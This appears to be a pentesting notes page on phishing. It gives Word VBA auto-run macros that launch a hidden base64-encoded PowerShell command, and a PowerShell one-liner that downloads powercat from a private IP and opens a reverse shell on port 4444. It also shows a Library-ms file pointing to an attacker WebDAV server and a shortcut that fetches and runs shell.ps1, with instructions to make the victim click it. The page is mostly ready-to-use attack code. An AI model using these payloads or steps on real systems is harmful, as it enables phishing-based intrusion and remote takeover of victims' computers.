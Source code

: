 ```yaml
---
title: "Phishing"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


- Canarytokens - Generate a link to gather informations on the target : https://canarytokens.org/nest/

- **Macro words :**
```sh
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	CreateObject("Wscript.Shell").Run Str
End Sub
```
- Encode the command with base64 to avoid issues with special characters : 

```sh
IEX(New-Object
System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c
192.168.119.2 -p 4444 -e powershell
Listing 216 - PowerShell
```


```sh
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
print("Str = Str + " + '"' + str[i:i+n] + '"')
Listing 217 - Python script to split a base64 encoded
```

```sh
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
		Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
		Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
	...
		Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
		Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
		Str = Str + "A== "

	CreateObject("Wscript.Shell").Run Str
End Sub
```

**Abusing Windows Library Files :**

- Create a webdav server : 
```sh
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous -
-root /home/kali/webdav/
```
- Create a file config.Library-ms with this content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://myip</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Create a lnk file and name it `automatic_configuration` : 
```sh
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.1.26:8080/shell.ps1')"
```

- Put those lnk in the  webdav directory and deliver the config.Library-ms and force the user to click in the  lnk .